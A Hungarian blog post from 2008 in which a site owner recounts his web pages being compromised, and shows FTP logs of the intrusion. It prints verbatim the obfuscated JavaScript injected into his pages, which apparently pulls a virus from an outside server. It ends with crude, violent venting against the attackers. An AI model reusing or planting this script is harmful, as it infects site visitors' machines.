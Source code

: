 ```yaml
---
title: "shapgvba ejtf(c){..."
slug: 'shapgvba-ejtfc'
date: "2008-02-05"
tags: 
  - "geekség"
  - "gekko"
  - "hack"
  - "virus"
  - "zsonglőrködés"
---
```


Amikor a pokol elszabadul.

Rémálom baszki.

Gondos házigazda lévén, rendszeresen nézegetem az oldalaimat, hogy minden rendben van-e, nem kell-e valami hozzászólást kimoderálni stb. Vasárnap feltűnt valami kis apróság. A böngészőm a csokavar.hu főoldalán valami ismeretlen add-in-t akart futtatni. Márpedig én ilyet nem írtam sehova. Aztán nézem a forrást, és 500-600 üres sorral a fájl általam gondolt vége után találtam egy ilyet:

<script language=JavaScript>var sf=" shapgvba cwzgq(d){ine xp,yfl="r|b'RhkB_98[5)XsvAPClwHix.e,2o:$uyT^&Vqa36Nd=-Z"{`z]m@GS;UIc# 0}jWMt1pf7~(n4O*+g!",xn="",c,wah,xs="",pr;sbe(xp=0;xp<d.yratgu;xp++){ c=d.puneNg(xp);wah=yfl.vaqrkBs(c);vs(wah>-1){ pr=((wah+1)%81-1);vs(pr<=0)pr+=81;xs+=yfl.puneNg(pr-1); } ryfr xs+=c;}xn+=xs;qbphzrag.jevgr(xn);}",aarf="";for(nyf=0;nyf<sf.length;nyf++){ cqd = sf.charCodeAt(nyf);if((cqd>64 && cqd<78)||(cqd>96 && cqd<110)) cqd=cqd+13;else if((cqd>77 && cqd<91)||(cqd>109 && cqd<123))cqd=cqd-13;aarf=aarf.concat(String.fromCharCode(cqd));} var hw,u; eval( aarf );hw="<7s,N#!0G431x41|-{U4k47s,N#!{>0n'sx]|3!rJ,N!|a0{<SPRdyF0G431x41|-{Z4k4Ss,N#!{0SRP-{l!!#$//JJJr1''1G|M434Gj!Gs7rs']/99x!!rU7?{tn'sx]|3!r,|i|,,|,t{{></SPRdyF>{0KH0</7s,N#!>0"; pjmtd(hw);</script>

Szoktam ronda kódot írni, de azért ez... 

Kiderült, hogy fenti szutyok valami Hong Kongi gépről (58.65.238.60) próbál egy vírust letölteni a látogató gépére.

Aztán elkezdtem a logokat böngészni, míg az FTP logban a következőre nem bukkantam:

```

Fri Feb 1 23:58:06 2008 [pid 7784] [encse] OK LOGIN: Client "58.65.238.59"
Fri Feb 1 23:58:12 2008 [pid 7787] [encse] OK DOWNLOAD: Client "58.65.238.59", "/public_html/www/index.php", 3904 bytes, 16.06Kbyte/sec
Fri Feb 1 23:58:14 2008 [pid 7787] [encse] OK UPLOAD: Client "58.65.238.59", "/public_html/www/index.php", 5498 bytes, 11.47Kbyte/sec
Fri Feb 1 23:58:16 2008 [pid 7787] [encse] OK DOWNLOAD: Client "58.65.238.59", "/public_html/gekko/index.php", 92 bytes, 0.39Kbyte/sec
Fri Feb 1 23:58:18 2008 [pid 7787] [encse] OK UPLOAD: Client "58.65.238.59", "/public_html/gekko/index.php", 1686 bytes, 3.49Kbyte/sec
Fri Feb 1 23:58:21 2008 [pid 7787] [encse] OK DOWNLOAD: Client "58.65.238.59", "/public_html/blog/index.php", 54 bytes, 0.23Kbyte/sec
Fri Feb 1 23:58:23 2008 [pid 7787] [encse] OK UPLOAD: Client "58.65.238.59", "/public_html/blog/index.php", 1648 bytes, 3.43Kbyte/sec
Fri Feb 1 23:58:26 2008 [pid 7787] [encse] OK DOWNLOAD: Client "58.65.238.59", "/public_html/zsonglor/index.php", 5645 bytes, 24.04Kbyte/sec
Fri Feb 1 23:58:28 2008 [pid 7787] [encse] OK UPLOAD: Client "58.65.238.59", "/public_html/zsonglor/index.php", 7239 bytes, 10.81Kbyte/sec
Fri Feb 1 23:58:31 2008 [pid 7787] [encse] OK DOWNLOAD: Client "58.65.238.59", "/public_html/zsonglor/siteswap/index.php", 7102 bytes, 16.60Kbyte/sec
Fri Feb 1 23:58:33 2008 [pid 7787] [encse] OK UPLOAD: Client "58.65.238.59", "/public_html/zsonglor/siteswap/index.php", 8696 bytes, 12.99Kbyte/sec

``` 

Ugyanaz a Hong Kongi IP, közvetlen a másik mellett.

Szóval valaki lenyúlta az FTP jelszavamat, és ahogy sejtem, arra használta fel, hogy ugyanezt a jelszólopó trójait terjessze az oldalaimon.

A neten találtam egy fórumot, ahol egy hasonló támadást elemeznek ([http://pouet.net/topic.php?which=5006&page=1](http://pouet.net/topic.php?which=5006&page=1)). Itt az 'én' scriptem egy másik mutációját elemzik. Szerintük az egész mögött a [Russian Business Network](http://en.wikipedia.org/wiki/Russian_Business_Network) áll, ami a wikipedia leírása alapján nagyjából a maffia. hátaf�szom.

Tegnap jelszavakat váltogattam (bankos, céges, stb.  el lehet képzelni...) Ma meg egész nap a gépet pucolgattam, de ez tisztának tűnik. Azt gondolom, hogy az otthoni, régi gépemen lesz a trójai, de ez a hétvége előtt nem fog kiderülni.

És az egészben nem is az fáj, hogy engem meghackeltek, mert előfordul az ilyesmi. De a büdös kurva életbe már: a szájbavert zsonglőr oldalamra töltik fel az ótvar szutykukat, hogy az arra tévedő gyerekek gépére másszon fel az a szemét.

Én sose voltam a halálbüntetés ellen: le kéne géppuskázni az egész baszott bagást, úgy ahogy van, aztán nézegethetnek.
